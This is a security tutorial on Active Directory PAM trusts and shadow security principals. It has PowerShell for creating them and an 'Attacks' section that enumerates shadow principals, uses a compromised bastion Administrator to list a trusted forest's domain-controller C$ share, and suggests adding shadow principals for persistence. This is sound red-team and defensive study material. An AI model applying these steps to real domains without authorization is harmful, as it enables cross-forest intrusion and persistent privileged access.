


## What are PAMs?
Privileged Access Management (PAM) facilitates the administration of an existing `User/Production` Forest by leveraging a `Bastion` Forest, also referred to as an `Administrative` Forest.

## How does it works?
This setup involves establishing a one-way PAM trust between the Bastion Forest and the existing User Forest. Within this architecture, users in the Bastion Forest can be associated with privileged groups such as `Domain Admins` and `Enterprise Admins` in the user forest, all without necessitating modifications to group memberships or Access Control Lists (ACLs).
The mechanism behind this approach relies on the creation of `Shadow security principals` within the `Bastion Forest`.

## What are Shadow Security Principals?
Active Directory (AD), a `shadow principal` refers to a security principal (such as a user, group, or computer account) that exists in a **trusted domain** but appears as if it also exists in the **local domain**.
When a trust is established between two domains, security principals from one domain can access resources in the other domain. However, while the security principals are authenticated in the trusted domain, they might not have an actual presence (e.g., user accounts) in the trusting domain. In such cases, shadow principals are created in the trusting domain to represent these security principals from the trusted domain.

## Schema 

From this picture we can see that the Bastion Forest(aka Administrative Forest) can manage 3 different other forests and it's resources(**Eulogistics.corp, Inlogistics.corp & Uslogistics.corp**). 

Specifically a **One-way PAM**  is setup from the Bastion to the other forests(*allowing only Bastion to reach the forests and not the other way around*).

## How to setup?
When the One-way PAM trust is setup now the admin can create Shadow principals within the Bastion Forest contain the `Enterprise Admins` Security Identifier (SID) from the `user forests`. Shadow Principals reside in a special container `CN=Shadow Principal Configuration` in the Configuration container on bastion forest
- Obtain the `Enterprise Admins` or `Domain Admins` SID of User forest
- Create a `Shadow Principal` in Bastion forest with the obtained SID of User forest
- Make a `user` from Bastion forest member of the created `Shadow Principal`

```powershell-session
# Get the SID for the Enterprise Admins group of the user forest
$ShadowPrincipalSid = (Get-ADGroup -Identity 'Enterprise Admins' -Properties ObjectSID -Server eulogistics.corp).ObjectSID

# Container location
$Container = 'CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=controlcenter,DC=corp'

# Create the Shadow principal
New-ADObject -Type msDS-ShadowPrincipal -Name "Tom" -Path $Container -OtherAttributes @{'msDS-ShadowPrincipalSid'= $ShadowPrincipalSid}

# We can add a user from bastion forest to an existing bastion forest's shadow security principal container named Tom
Set-ADObject -Identity "CN=Tom,CN=Shadow Principal Configuration,CN=Services,CN=Configuration,DC=controlcenter,DC=corp" -Add @{'member'="CN=Administrator,CN=Users,DC=controlcenter,DC=corp"} -Verbose	
```

# Attacks
If an attacker manages to compromise a Bastion forest, he/she can not only get a foothold into the trusted forests, but also gain persistence.
We can start by enumerating the Shadow principals on the bastion forest.
```powershell-session
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl

Name                    : Shadow Principal Configuration
member                  : {}
msDS-ShadowPrincipalSid :

Name                    : Tom
member                  : {CN=Administrator,CN=Users,DC=controlcenter,DC=corp}
msDS-ShadowPrincipalSid : S-1-5-21-1490426177-2790079739-1572189234-519
```
From here can we see that Tom is part of Administrator on the Bastion forest and the last attribute(*msDS-ShadowPrincipalSid*) is **SID of the same user** mapped on the trusted domain. 
Consequently, the `Administrator` of the Bastion forest gains direct access to the User forest by virtue of their association with the `Enterprise Admins` group.
```powershell-session
whoami;hostname
controlcenter\administrator
DC01
PS C:\Tools> ls \\DC-EU.eulogistics.corp\c$
    Directory: \\DC-EU.eulogistics.corp\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/16/2016   6:23 AM                PerfLogs
d-r---         2/1/2024   6:36 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---         2/1/2024   6:35 PM                Users
d-----         2/6/2024  11:54 PM                Windows
```
OBS: In this example the Shadow Principal was already created and mapped to the Enterprise Admins on the trusted domain, which allows us to gain access directly to the *trusted domain*.
<font color="#ff0000">But in real life you might have to add the Shadow credentials in order to abuse it!</font>
